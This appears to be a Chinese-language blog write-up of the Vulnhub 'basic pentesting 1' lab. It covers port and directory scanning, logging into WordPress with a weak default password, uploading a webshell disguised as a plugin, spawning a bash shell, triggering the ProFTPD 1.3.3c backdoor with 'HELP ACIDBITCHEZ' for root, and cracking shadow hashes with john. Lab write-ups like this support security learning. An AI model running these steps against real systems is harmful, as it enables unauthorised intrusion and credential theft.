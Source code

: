 ```yaml
---
title: Vulnhub basic pentesting 1 Writeup
date: 2024-08-1
categories: [資安]
tags: [writeup]

description: Vulnhub basic pentesting 1 過程最終取得Root

published: true #不顯示此文章
---
```



## Before

- 攻擊者ip 192.168.18.136
- 靶機ip 192.168.18.139

-------
## 服務掃描

對靶機`192.168.18.139`進行服務掃描:
```bash
nmap -sV -sT -p- 192.168.18.139
```

掃描結果:
```text
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c 
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

* ProFTPD 1.3.3c      CVE-2015-3306   
* OpenSSH 7.2p2       CVE-2016-0777,CVE-2016-0778
* Apache httpd 2.4.18 CVE-2016-5387

一開始沒有去注意到這麼多CVE就直接去打網頁了

----
## 目錄掃描 

使用 `dirsearch` 工具進行目錄掃描：
```bash
dirsearch -u "192.168.18.139"
```

掃描結果:
```text
[14:24:47] 200 -  177B  - /index.html
[14:24:53] 301 -  317B  - /secret  ->  http://192.168.18.139/secret/
[14:24:53] 200 -   52KB - /secret/
[14:24:54] 403 -  303B  - /server-status/
[14:24:54] 403 -  302B  - /server-status
```

在 `http://192.168.18.139/secret/` 發現了域名 `http://vtcsec/` 和管理員登入介面 `http://vtcsec/secret/wp-login.php`

起手式`admin:admin`(弱密碼) 成功登入

---------
## 利用WP plugin

製作假`plugin`裡面含`webshell`上傳到伺服器

將`WP plugin`所需的標頭加入到`webshell`裡面:
```text
/*
Plugin Name: wordprees webshell
Plugin URI: IDK
Description: this plugin is websehll 
Version: 1.0
Author: hacker
Author URI: IDK
License: GPL2
*/
```

訪問 `http://vtcsec/secret/wp-admin/plugins.php?plugin=wp_webshell%2Fwp_webshell.php` 讓`webshell`執行 
成功`RCE`

---------------------------
## 交互式Bash Shell

利用`webshell`送出指令取得交互式的`Bash shell`:
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

-------
## 後續操作

在`/home/marlinspike`找路徑看到才發現`ProFTPD 1.3.3c`的後門漏洞:
```text
046e85f6fe460de94fd46198feef4d07-backdoored_proftpd-1.3.3c.tar.gz
046e85f6fe460de94fd46198feef4d07-backdoored_proftpd-1.3.3c.tar.gz.bak
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backdoored_proftpd-1.3.3c
examples.desktop
latest.tar.gz
proftpd-1.3.3c
proftpd-1.3.3c.tar.bz2
proftpd-1.3.3c.tar.bz2.bak
wordpress
```

發現 `ProFTPD 1.3.3c` 存在後門漏洞 `CVE-2015-3306`，特定指令可獲得 root 權限：
```bash
ps aux | grep proftpd

nc 192.168.18.139 21

HELP ACIDBITCHEZ
```
![getrootimage](https://spencerkuku.github.io/_posts/images/getroot.png)
> 可以使用metasoloit但是我還沒學 哈哈哈哈哈哈 

---------
### 密碼爆破

- **準備文件**
    - **`passwd.txt`**: 這個文件包含了 **`/etc/passwd`** 文件的內容，列出了系統中的用戶和基本信息，但不包括密碼哈希。
    - **`shadow.txt`**: 這個文件包含了 **`/etc/shadow`** 文件的內容，存儲了加密的密碼哈希。
- **合併文件**
    
    - 使用 **`unshadow`** 工具來將 **`passwd.txt`** 和 **`shadow.txt`** 合併成一個文件 **`combined.txt`**，這個文件包含了用戶名和加密的密碼哈希，格式適合於 **`john`** 工具進行破解：
    
        ```bash
        sudo unshadow passwd.txt shadow.txt > combined.txt
        ```
- **破解密碼**
    
    - 使用 **`john`** 工具來對 **`combined.txt`** 文件中的密碼哈希進行破解：
        
		```bash
	    john combined.txt
        ```
        
    - **`john`** 會嘗試使用字典攻擊和其他破解技術來解密密碼哈希。
- **顯示結果**
    
    - 破解完成後，使用 **`john`** 的 **`--show`** 選項來顯示破解得到的原始密碼：
    
        ```bash
		john --show combined.txt
        ```

    - 會顯示出密碼（**`********`**）。

------------------------

